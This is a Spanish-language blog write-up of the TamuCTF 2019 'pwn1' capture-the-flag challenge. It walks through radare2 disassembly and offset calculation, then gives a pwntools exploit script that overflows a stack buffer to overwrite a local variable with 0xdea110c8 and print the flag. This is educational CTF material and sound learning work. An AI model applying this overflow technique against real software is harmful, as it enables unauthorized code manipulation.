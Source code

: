 ```yaml
---
layout: post
title: TAMU 2019 pwn1 - BufferOverflow
author: c4rta
date: 2023-01-06
categories: [Explotacion binaria]
tags: [bof stack based]
description: >
  En este desafio hay que evadir un par de filtros para conseguir la flag
image: 
  path: /assets/img/tamu-pwn1/waifu.webp
---
```

{:.lead}

Resolucion del ejercicio pwn1 de TamuCTF. Donde sobrescribimos el valor de una variable

El binario lo pueden descargar con:

```wget https://github.com/guyinatuxedo/nightmare/raw/master/modules/04-bof_variable/tamu19_pwn1/pwn1```

## Analisis

El binario cuenta con las siguientes protecciones:

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   77 Symbols	  No	0		2		pwn1
```
No tienec Canary asi que podemos intentar un buffer overflow, sin embargo tiene NX, asi que no podemos ejecutar una shellcode.

Aqui intente ejecutar el binario pasandole lo que sea y luego tratando de ocasionar un buffer overflow:

![](/assets/img/tamu-pwn1/binario1.png)

Pero de ninguna forma funciono, asi que vamos a ver que esta pasando, para el reversing usare radare2

Y miren, aqui tenemos la funcion que recibe nuestro input:

![](/assets/img/tamu-pwn1/radare1.png)

Lo mas descatable son las instrucciones:

- lea eax, [ebx - 0x159f]: Que lo que esta haciendo es cargar la direccion de memoria que esta contenida en ```ebx-0x159f```, esto significa que se está leyendo la dirección de memoria contenida en la ubicación de memoria apuntada por ebx-0x159f y luego cargando esa dirección en el registro eax. y lo que tiene esa direccion de memoria es nuestro input

- push eax: Luego nuestro input lo mete al stack

- lea eax, [ s1]: Esto hace lo mismo que ```lea eax, [ebx - 0x159f]``` pero ahora hay que tomar en cuenta que lo esta haciendo con lo que tiene la variable ```s1```, esta se esta declarando como ```var char *s1 @ ebp-0x3b``` y esta 56 bytes por debajo del ```EBP``` 

Despues tenemos una comparacion que es:

![](/assets/img/tamu-pwn1/radare2.png)

Lo que hace primero con ```add``` es sumarle 16 bytes al ```ESP```, esto con el fin para ajustar la posicion del ```ESP``` en el stack. Despues con ```test```se hace una operacion AND bit a bit entre lo que le metimos como input y lo que tiene ```s1```, y esto sirve ya que despues tenemos la intruccion ```je``` que significa ```salta si es igual```, asi que si el input y ```si``` son iguales, la flag ```ZF``` se establece en 1 y salta a la direccion ```0x5655582f``` y si no, la ```ZF``` se establace en 0 y en este caso lo que pasa es que el programa se detiene como se puede ver aqui en esta imaguen que pinte jiji:

![](/assets/img/tamu-pwn1/radare3.gif)

Si son iguales el programa sigue con la ejecucion desde la funcion ```0x5655582f``` (color amarillo), y si no simplemente hace un exit y se detiene (color rojo).

Despues en el programa tenemos otro input, pero es exactamente lo mismo que el que acabe de explicar, solo que la pregunta seria... ¿Cual es el valor de ```s1``` con el que nuestro input se esta comparando?, y lo que se me ocurrio a mi fue: si la variable ```s1``` se esta declarando como una variable global, entonces en la seccion .rodata de el binario debe de estar, esto es por que en .rodata se encuentran las variables inicializadas globalmente pero de solo lectura, entonces mostre la seccion .rodata con el comando ```iz```: 

![](/assets/img/tamu-pwn1/radare4.png)

Y wow, ahora sabemos que nuestros inputs se estan comparando con ```Sir Lancelot of Camelot``` y ```To seek the Holy Grail```, y wow, esto es completamente inutil ya que no nos sirve para nada jaja, lo que en realidad nos sirve es lo que sigue y es donde dice:

```What... is my secret?```

Y aqui es otro input y su codigo en emsamblador es:

![](/assets/img/tamu-pwn1/radare5.png)

Esto es un mas facil de analizar, simplemente compara lo que se almacena en```var_10h``` con el valor ```0xdea110c8``` y si son iguales manda a llama a la funcion ```sym.print_flag```, que basicamente es la que imprime la flag. 

Y para explotarlo, tenemos que hacer es sobreescribir el contenido de ```var_10``` usando ```gets```, pero no es tan obvio como parece, tenemos que tomar en cuenta en donde se ubican dos variables: ```var_10``` y ```s```, esto con el fin de saber el desplazamiento entre esas dos y saber cuantos bytes hay que meter.

Para saber donde esta ```var_10``` vemos la declaracion de la variable:

```var uint32_t var_10h @ ebp-0x10```

Esta esta 0x10 por debajo del EBP, es decir, 16 bytes.

Y para ```s1```:

```var char *s1 @ ebp-0x3b```

Esta a 0x3b, es decir, 59 bytes

Entonces tenemos un desplazamiento de 59 - 16 = 43, asi que debemos de escribir 43 bytes antes de sobreescribir la variable

## Exploit

```py
from pwn import *

target = process('./pwn1')

payload = b"A"*43 #Esto es el padding
payload += p32(0xdea110c8) #el valor por la cual la vamos a sobreescribir

target.sendline("Sir Lancelot of Camelot")
target.sendline("To seek the Holy Grail.")

target.sendline(payload)
target.interactive()
```

Y listo

```
python3 exploit.py

[+] Starting local process './pwn1': pid 26329
/home/c4rta/Downloads/exploit.py:9: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  target.sendline("Sir Lancelot of Camelot")
/home/c4rta/Downloads/exploit.py:10: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  target.sendline("To seek the Holy Grail.")
[*] Switching to interactive mode
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
What... is your quest?
What... is my secret?
Right. Off you go.
flag{g0ttem_b0yz} --> la flag
```

Eso ha sido todo, gracias por leer ❤

![](/assets/img/tamu-pwn1/waifu.webp)
